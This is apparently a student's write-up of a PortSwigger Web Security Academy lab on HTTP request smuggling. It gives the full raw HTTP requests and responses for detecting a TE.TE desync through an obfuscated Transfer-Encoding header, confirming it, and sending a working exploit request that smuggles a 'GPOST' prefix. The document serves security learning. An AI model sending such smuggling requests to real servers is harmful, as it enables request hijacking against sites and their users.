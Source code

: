 
Basic Lab: Obfuscating the TE header 
https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header
# Detection

![](../../../Attachments/Req%20Smug/Detection%20HTTP%20Request%20Smuggling.png)

Detecting Front-end 
``` HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X

```
Got: 
```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 27

{"error":"Invalid request"}
```
What is happening:

![](../../../Attachments/Req%20Smug/Invalid%20Chunk%20SIze.png)

Frontend is using TE

### Detecting what the backend is using

```HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X

```
Got a **200 OK**

What is happening:

![](../../../Attachments/Req%20Smug/TE%20TE%20Detection.png)


![](../../../Attachments/Req%20Smug/TE%20Header%20Obfuscations.png)

Tried adding a second malformed Transfer-Encoding. 
```HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: x

0

X

```

![](../../../Attachments/Req%20Smug/TE%20Obfuscation%20visual.png)
Causes the backend to timeout and **500 Internal Server Error**

# Confirming
Now we can exchange the lab to a TE.CL vulnerability.
```HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: x

1
G
0


```
>**200 OK**

Immediately send a normal request:
```HTTP
POST / HTTP/2
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo=bar

```
Got **"Unrecognized method G0POST"**
![](../../../Attachments/Req%20Smug/TE.TE%20confirmation.png)

# Crafting the exploit request

#### Updating the Content-Length of the smuggled request

Determining the minimum value for the smuggled request. 
>Adding one (+1) to the smugled request body so it can append to normal request.

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818135755.png)

#### Fixing the Chunk Size

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818140740.png)


#### Fixing the first Content-Length

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818141150.png)

# Exploiting
```HTTP
POST / HTTP/1.1
Host: 0a3400f70367a7d68109ed3b007e009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5c
GPOST / HTTP/1.1
Content-Length: 11
Content-Type: application/x-www-form-urlencoded

x=1
0


```
**200 OK**

Immediately send the normal request:
```
POST / HTTP/2
Host: 0a3400f70367a7d68109ed3b007e009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo=bar
```
Got the **"Unrecognized method GPOST"**

[Explained](https://www.youtube.com/watch?v=TUsc14YH6LE&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=3&ab_channel=JarnoTimmermans)